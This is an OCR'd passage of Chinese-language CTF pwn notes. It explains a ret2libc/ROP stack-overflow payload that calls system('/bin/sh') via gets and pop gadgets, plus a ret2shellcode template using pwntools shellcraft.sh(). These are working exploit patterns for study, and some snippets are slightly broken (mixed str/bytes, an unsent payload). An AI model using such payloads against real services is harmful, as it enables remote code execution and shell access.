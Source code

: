 ```python
pop_ebx 是一个指令序列，用于将栈上的值弹出并存储到寄存器ebx中。

4. p32(buf2) : 这部分使用 p32 函数将 buf2 的地址转换为一个4字节的字符串。 buf2 是一个指
向存储输入数据的缓冲区的指针。

5. p32(system) : 这部分使用 p32 函数将 system 函数的地址转换为一个4字节的字符串。它将
用于将 system 函数的地址作为返回地址覆盖到栈上。

6. 'aaaa' : 这部分是一个4字节的字符串，用于填充栈上的返回地址的剩余空间。

7. p32(buf2) : 这部分使用 p32 函数将 buf2 的地址转换为一个4字节的字符串。它作为

pop_ebx 指令的参数，用于将 buf2 的地址加载到寄存器ebx中。
这个payload的目的是通过栈溢出漏洞控制程序的执行流程。它通过覆盖返回地址，将 gets 函数的
地址作为返回地址覆盖到栈上。然后使用 pop_ebx 指令将 buf2 的地址加载到寄存器ebx中，最后覆盖返
回地址为 system 函数的地址。通过这样的方式，可以执行 system(buf2) 来执行 buf2 指向的字符串所
表示的系统命令。
'''
#64位多了一个pop rdi和buf2的地址在gets函数前
#或者也可以直接套板子ret2libc直接求解也是可以的
elf = ELF('./pwn')
system = elf.sym['system']
buf2 = 0x602080
gets = elf.sym['gets']
pop_rdi = 0x4007f3     # 0x00000000004007f3 : pop rdi ; ret

payload = cyclic(0xA + 8) + p64(pop_rdi) + p64(buf2) + p64(gets) + p64(pop_rdi) + p64(buf2) + p64(system) + 'aaaa' + p64(buf2)

io.sendline(payload) 
io.sendline("/bin/sh")
```





##### ret2shcode

记得加架构，会准确很多：context(arch='amd64')

shellcode 一段小型的机器代码，用于在程序执行时执行特定的操作，通常用于利用漏洞（如缓冲区溢出）在目标系统上执行攻击代码。 在可执行区域。注入shellcode，跳转到可执行的shellcode。

```python
shellcode = asm(shellcraft.sh())
io.sendline(shellcode)
#可以指定架构然shellcode更加准确
#ljust向shellcode的尾部填充一定长度的字节，使我们写shellcode和实现控制返回地址，在一步之中完成
#如：
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.amd64.sh())
buf_addr = 0x10
payload = shellcode.ljust(0x18,b'a') + p64(0x10)
p.interactive()
```
